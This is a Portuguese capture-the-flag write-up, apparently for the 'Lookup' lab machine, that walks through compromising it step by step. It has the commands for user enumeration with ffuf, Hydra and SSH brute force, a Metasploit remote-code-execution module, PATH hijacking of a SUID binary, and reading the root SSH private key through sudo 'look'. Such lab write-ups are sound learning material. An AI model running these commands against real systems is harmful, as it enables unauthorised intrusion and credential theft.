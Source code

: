 # _**Lookup CTF**_
![](look.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que não conseguimos acessar o site  
Vamos alterar o arquivo _/etc/hosts_ para podermos ver
Adicionamos a linha abaixo
* [ip_address]  lookup.thm

Acessando o site, temos uma página de login  

![](login.jpg)

Tentando **SQL Injection** com ```' || '1'='1';-- -```, mas não funcionou  
Vamos procurar outra maneira  
Com alguns usuários conhecidos, temos um tipo de retorno, com desconhecidos, temos outro tipo de retorno  
A mensagem disponibilizada quando tem usuários conhecidos é apenas de _wrong password_  
E um destes usuários é _admin_  
Além disso, ao entrar na barra de endereço _login.php_, somos levados a uma página em branco  

**admin**  

![](wrong_pass.jpg)  

**outro _username_**  

![](wrong_bob.jpg)

Pode ser que tenha outro usuário também além de _admin_  
Para descobrirmos, iremos executar o comando abaixo com a ferramenta <mark>ffuf</mark>
> ```bash
> ffuf -X POST -u http://lookup.thm/login.php -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalidpass123" -w ../seclists/Usernames/Names/names.txt -fr "Wrong username or password. Please try again."
> ```
![](other_name.jpg)

O outro nome existente é **jose**  
Vamos tentar realizar um ataque de força bruta com <mark>Hydra</mark>
> ```bash
> hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again." -IV -t 64
> ```
![](jose_passwd.jpg)

Tentando a senha descoberta, temos sucesso!  

![](new_hosts.jpg)

Vamos alterar o arquivo de configuração _/etc/hosts_  
Após, acessamos **files.lookup.thm** e temos o seguinte:  

![](new_page.jpg)

Diversas credenciais, mas podemos fazer algo a mais
Verificando com <mark>searchsploit</mark>, temos versão com _remote command execution_  

![](exploit_version.jpg)

Vamos utilizar <mark>Metasploit</mark> para podermos explorar a vulnerabilidade  
Primeiro, selecionamos o módulo  
Em seguida, configuramos nosso host remoto, isto é: files.lookup.thm  
E então, executamos  

![](module.jpg)  

![](meterpreter_session.jpg)

Executando o comando ```find / -perm -4000 -type f 2>/dev/null```, encontramos um arquivo interessante e incomum: _/usr/sbin/pwn_  
Executando ```ls -la```, temos o retorno  

![](pwm.jpg)

Os bits SUID e SGID são definidos: -rwsr-sr-x
Isso indica que, quando executado, este programa é executado com os privilégios do proprietário, que é root, juntamente com os privilégios do grupo do arquivo, que também é root  
Utilizando ```strings```, temos o resultado abaixo  

![](password.jpg)

Esta saída mostra que este arquivo utiliza vinculação dinâmica e bibliotecas como **libc.so.6**  
As funções _fopen_, _perror_ e _popen_ indicam que o programa está executando operações de arquivo e comandos de shell  
Isso indica a possibilidade de injeção de comandos  
Também vemos que o programa tenta acessar /home/%s/.passwords, revelando que está se baseando em caminhos e nomes de arquivo previsíveis  

A primeira coisa que devemos fazer é executar cd /tmp, pois temos acesso de gravação ao diretório /tmp  
Em seguida, executemos este comando para escrever nossa própria versão do comando id:
> ```bash
> echo 'echo "uid=1000(think)"' > id
> chmod +x id
> export PATH=/tmp:$PATH
> ```
E agora que o caminho foi manipulado, podemos executar o comando **pwm** e ele executará completamente o arquivo .passwords, que agora copiaremos e salvaremos como passwords.txt no dicionário /tmp  
Agora, temos as senhas, mas ainda não sabemos qual delas nos permitirá mudar o modo como os usuários pensam  

![](password.jpg)

Aqui, realizamos um ataque de força bruta contra o serviço SSH  

![](ssh_login.jpg)

Agora, para escalarmos privilégios, vamos primeiro tentar algo com o comando ```sudo -l```  

![](priv_esc.jpg)

Procurando em GFTOBins por _look_, temos o seguinte  

![](sudo_file.jpg)

Podemos executar os seguintes comandos
> ```bash
> LFILE=/root/.ssh/id_rsa
> sudo look '' "$LFILE"
> ```
Agora, em nossa máquina
> ```bash
> echo '[ssh_key]' > id_rsa
> chmod 600 id_rsa
> ssh -i id_rsa root@[ip_address]
> ```
![](root_access.jpg)

Assim, temos acesso _root_  
Basta ir atrás das flags!

